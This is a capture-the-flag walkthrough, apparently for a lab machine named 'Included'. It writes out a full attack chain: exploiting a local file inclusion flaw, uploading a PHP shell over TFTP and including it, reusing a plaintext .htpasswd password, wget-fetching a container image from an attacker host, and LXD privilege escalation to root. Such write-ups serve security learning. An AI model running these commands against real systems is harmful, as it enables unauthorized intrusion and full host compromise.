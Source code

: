 # Included

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.108.75/?file=home.php

```
I used `-sU` with nmap and still got no udp port open 

I guess the service is just `tftp`

there is bland obvious `LFI` on the website with `file` parameter


From `/etc/passwd` there is a user named `mike`

For access install tfpt on your side to (sudo apt for debian users)

Then connect and upload a php shell

```
└──╼ $tftp 10.129.108.75
tftp> put shell.php
Sent 4057 bytes in 1.4 seconds
tftp> 
```

then prepare a listener and include `file=/var/lib/tftpboot/shell.php` to activate your shell

Only `mike` can read the user flag so we need lateral movement

In the web folder we notice we can read some files

```
drwxr-xr-x 4 root     root      4096 Oct 13 19:50 .
drwxr-xr-x 3 root     root      4096 Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data   212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data    17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data  3704 Oct 13 19:50 home.php
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 images
-rw-r--r-- 1 www-data www-data   145 Oct 13 19:49 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29  2014 license.txt
```
`.htpasswd` is readable? 

```
mike:Sheffield19
```
Evolve to mike and get user flag

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@included:/var/www/html$ su mike
su mike
Password: Sheffield19

mike@included:/var/www/html$ 
...
cat user.txt
user_flag_with_no_tricks

mike@included:~$ id
id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)

```

## Privilege escalation

Mike is in `lxd` group so yeah...`alpine` container it is

If its new to you Google `lxd privilege escalation` for more informations

Seriously if it sounds easy you better check [here](https://0x44696f21.wordpress.com/2020/08/18/building-lxd-containers-on-kali/) and you might end up [here](https://linuxcontainers.org/distrobuilder/introduction/) 

and [here](https://github.com/lxc/distrobuilder) XD

did it already so I just copied my old build from `distrobuilder`

then upload the build files on target machine with `wget`

```
wget http://10.10.15.58:80/lxd.tar.xz
--2021-12-17 12:05:02--  http://10.10.15.58/lxd.tar.xz
Connecting to 10.10.15.58:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 424 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz          100%[===================>]     424  --.-KB/s    in 0.003s  

2021-12-17 12:05:03 (118 KB/s) - ‘lxd.tar.xz’ saved [424/424]


mike@included:/tmp$ wget http://10.10.15.58:80/rootfs.squashfs
--2021-12-17 12:06:05--  http://10.10.15.58/rootfs.squashfs
Connecting to 10.10.15.58:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1798144 (1.7M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs     100%[===================>]   1.71M   459KB/s    in 4.2s    

2021-12-17 12:06:10 (421 KB/s) - ‘rootfs.squashfs’ saved [1798144/1798144]


```

Import the image on target machine as mymnimal

```
mike@included:/tmp$ lxc image import --alias myminimal lxd.tar.xz rootfs.squashfs
<import --alias myminimal lxd.tar.xz rootfs.squashfs
```
launch it

```
mike@included:/tmp$ lxc launch myminimal mycontainer
lxc launch myminimal mycontainer
Creating mycontainer
Starting mycontainer

```
check it
```
mike@included:/tmp$ lxc list mycontainer
lxc list mycontainer
+-------------+---------+------+-----------------------------------------------+------------+-----------+
|    NAME     |  STATE  | IPV4 |                     IPV6                      |    TYPE    | SNAPSHOTS |
+-------------+---------+------+-----------------------------------------------+------------+-----------+
| mycontainer | RUNNING |      | fd42:eff6:712f:c3a0:216:3eff:febb:4348 (eth0) | PERSISTENT | 0         |
+-------------+---------+------+-----------------------------------------------+------------+-----------+


```
create a new container with right priviledges

```
mike@included:/tmp$ lxc init myminimal ignite -c security.privileged=true
lxc init myminimal ignite -c security.privileged=true
Creating ignite

```

Mount the `/` folder in the container and start it

```
mike@included:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/
<device add ignite mydevice disk source=/ path=/mnt/
Device mydevice added to ignite
```
Get a root shell in that
```
mike@included:/tmp$ lxc start ignite
lxc start ignite

mike@included:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh
~ # ^[[51;5R

OR

mike@included:/tmp$ lxc exec mycontainer -- sh
~ # id
uid=0(root) gid=0(root)
```
Go grab the flags where they are

```
~ # cd /mnt/root
/mnt/root # ls
bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz
/mnt/root # cd root
/mnt/root/root # ls
root.txt
cat root.txt
sike_real_flag_now_no_joke

```
And its done!


